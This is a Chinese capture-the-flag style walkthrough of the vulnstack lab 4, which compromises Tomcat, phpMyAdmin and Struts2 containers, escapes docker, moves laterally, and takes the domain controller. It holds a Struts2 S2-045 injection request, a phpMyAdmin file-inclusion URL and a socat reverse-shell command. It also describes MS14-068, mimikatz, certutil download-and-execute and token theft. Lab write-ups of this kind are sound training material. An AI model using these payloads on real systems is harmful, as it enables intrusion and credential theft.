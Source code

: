 > 原文链接: https://www.anquanke.com//post/id/198648 


# 从外网到域控（vulnstack靶机实战4）


                                阅读量   
                                **867403**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">5</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p4.ssl.qhimg.com/t01b1ecef973b4c4fc7.jpg)](https://p4.ssl.qhimg.com/t01b1ecef973b4c4fc7.jpg)



## 前言

大家好，我是鸿鹄实验室的lengyi,红日靶机又更新了，所以我就玩了玩…

vlunstack是红日安全团队出品的一个实战环境，具体介绍请访问：[http://vulnstack.qiyuanxuetang.net/vuln/detail/6/](http://vulnstack.qiyuanxuetang.net/vuln/detail/6/)

具体的网络架构作者已经给出，如下图：

[![](https://p1.ssl.qhimg.com/t01f8a9cb5b5cfd0621.png)](https://p1.ssl.qhimg.com/t01f8a9cb5b5cfd0621.png)

ubuntu为我们的web环境，其中的web环境需要手动开启，全部为docker环境，启动方法如下：

```
docker-compose build
docker-compose up -d
```

需要启动的环境分别为：s2-045、CVE-2017-12615、 cve-2018-12613，别问我怎么知道的，问就是试的….

全开的效果：

[![](https://p0.ssl.qhimg.com/t01f6e98208527d6773.png)](https://p0.ssl.qhimg.com/t01f6e98208527d6773.png)



## 外网测试

既然是docker的环境，那就把三个web全部拿下先，先从tomcat的开始，CVE-2017-12615是一个老漏洞了，很简单的利用，put上传webshell即可。

[![](https://p3.ssl.qhimg.com/t016323af444e2813cf.png)](https://p3.ssl.qhimg.com/t016323af444e2813cf.png)

然后发现目标为root权限（docker环境不为root还奇怪呢…）

[![](https://p0.ssl.qhimg.com/t010cfb13d9a037f974.png)](https://p0.ssl.qhimg.com/t010cfb13d9a037f974.png)

好，我们这个先放到一边，再来继续测试另外两个环境，CVE-2018-12613,这个是一个phpmyadmin的洞，也就是文件包含，利用起来也还算方便，方法如下（环境为config模式，可直接使用test账户登录）：

```
http://192.168.0.104:2003/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```

[![](https://p3.ssl.qhimg.com/t01aed19590cbdeb901.png)](https://p3.ssl.qhimg.com/t01aed19590cbdeb901.png)

至于包含shell也是比较简单的，select执行一个php代码，包含自己的session即可。

下面是st2-045，st2系列也是一个经典的系列，直接构造下面的数据包即可rce。

```
POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Length: 0
Content-Type: %`{`#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)`}`.multipart/form-data
```

[![](https://p0.ssl.qhimg.com/t0165b8dc52c842a48a.png)](https://p0.ssl.qhimg.com/t0165b8dc52c842a48a.png)

好了，三个环境就算是基本完成了，下面就是一个比较重要的问题，docker逃逸。我这里使用cve-2019-5736进行逃逸。先使用msf搞一个shell回来：

[![](https://p3.ssl.qhimg.com/t0134f67f84a0c4afdb.png)](https://p3.ssl.qhimg.com/t0134f67f84a0c4afdb.png)

这里是我们可以修改在宿主机上进行操作的命令

[![](https://p4.ssl.qhimg.com/t01271b57f09084cac8.png)](https://p4.ssl.qhimg.com/t01271b57f09084cac8.png)

可自行修改对于的payload，然后编译，

```
go build main.go
```

然后将编译好的文件传到目标机上，因为我已经有了一个大马了，上传很方便。继续为了方便,socat搞一个tty的shell过来

```
socat file:`tty`,raw,echo=0 tcp-listen:4444  
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

[![](https://p2.ssl.qhimg.com/t01911edaaa762762b8.png)](https://p2.ssl.qhimg.com/t01911edaaa762762b8.png)

执行

[![](https://p2.ssl.qhimg.com/t01b5ad4615116ded65.png)](https://p2.ssl.qhimg.com/t01b5ad4615116ded65.png)

然后在主机执行：

[![](https://p2.ssl.qhimg.com/t01a4f5ce7ed51d3be8.png)](https://p2.ssl.qhimg.com/t01a4f5ce7ed51d3be8.png)

Poc执行成功：

[![](https://p0.ssl.qhimg.com/t015f176d4ac61370b0.png)](https://p0.ssl.qhimg.com/t015f176d4ac61370b0.png)

然后我们用这种方法(直接传shell或者添加用户搞shell)在宿主机上执行一个cs和msf的shell回来。

[![](https://p4.ssl.qhimg.com/t017b354dd1c56b3a4e.png)](https://p4.ssl.qhimg.com/t017b354dd1c56b3a4e.png)



## 横向移动

msf添加路由，session返回到后台

[![](https://p0.ssl.qhimg.com/t01fa23b39d6731312f.png)](https://p0.ssl.qhimg.com/t01fa23b39d6731312f.png)

因为有拓扑图，只需要进行攻击即可，我们先来测试win7，内网嘛，17-010试试？

[![](https://p1.ssl.qhimg.com/t0171eb79f56ad2c1fa.png)](https://p1.ssl.qhimg.com/t0171eb79f56ad2c1fa.png)

不过，有一说一，我就没打虚拟机成功过….

[![](https://p5.ssl.qhimg.com/t018546c2a61aee4cd2.png)](https://p5.ssl.qhimg.com/t018546c2a61aee4cd2.png)

当然也有可能是uac的问题，换成bypassUAC的进行测试：

[![](https://p5.ssl.qhimg.com/t01d740aaa6930dfc44.png)](https://p5.ssl.qhimg.com/t01d740aaa6930dfc44.png)

获得shell

[![](https://p0.ssl.qhimg.com/t016753109dc3c66085.png)](https://p0.ssl.qhimg.com/t016753109dc3c66085.png)

且直接是system权限：

[![](https://p5.ssl.qhimg.com/t0148dd9ee763df5d6f.png)](https://p5.ssl.qhimg.com/t0148dd9ee763df5d6f.png)

进入交互模式，随手一看，发现有一些存在的工具，不知道是不是作者的安排,虽然没有到时候也需要传一些…

[![](https://p5.ssl.qhimg.com/t017450a45962ddbff7.png)](https://p5.ssl.qhimg.com/t017450a45962ddbff7.png)



## 进攻域控

先抓一下win7的明文：

[![](https://p4.ssl.qhimg.com/t01056de58df1d777de.png)](https://p4.ssl.qhimg.com/t01056de58df1d777de.png)

然后就是忌出我们的ms14-068了

[![](https://p0.ssl.qhimg.com/t01fb5369838add51c8.png)](https://p0.ssl.qhimg.com/t01fb5369838add51c8.png)

然后查看本机用户的id

[![](https://p4.ssl.qhimg.com/t01fe9c1c4faa67a331.png)](https://p4.ssl.qhimg.com/t01fe9c1c4faa67a331.png)

写入成功：

[![](https://p1.ssl.qhimg.com/t01cc7806ca72c3d6a9.png)](https://p1.ssl.qhimg.com/t01cc7806ca72c3d6a9.png)

mimikztz注入票据

[![](https://p0.ssl.qhimg.com/t0172ab16e17ac27ca4.png)](https://p0.ssl.qhimg.com/t0172ab16e17ac27ca4.png)

获取域控权限：

[![](https://p3.ssl.qhimg.com/t017ed6b8cf2b94dd01.png)](https://p3.ssl.qhimg.com/t017ed6b8cf2b94dd01.png)

[![](https://p2.ssl.qhimg.com/t01784b20102df44503.png)](https://p2.ssl.qhimg.com/t01784b20102df44503.png)

然后将payload放到ubuntu上，使用certutil下载、执行，即可获取shell。

[![](https://p1.ssl.qhimg.com/t0157ef6aa9dd5d67ab.png)](https://p1.ssl.qhimg.com/t0157ef6aa9dd5d67ab.png)

发现部分administrator的进程

[![](https://p3.ssl.qhimg.com/t01e52b9c9195afe561.png)](https://p3.ssl.qhimg.com/t01e52b9c9195afe561.png)

进行令牌窃取

[![](https://p4.ssl.qhimg.com/t01026fdceb4d1dedbf.png)](https://p4.ssl.qhimg.com/t01026fdceb4d1dedbf.png)

获得administrator权限，然后抓取明文密码

[![](https://p3.ssl.qhimg.com/t01d440b731e55aec73.png)](https://p3.ssl.qhimg.com/t01d440b731e55aec73.png)

打完收工。



## 总结

哦，谢谢红日的各位师傅们，拜谢，啊，我想开学…

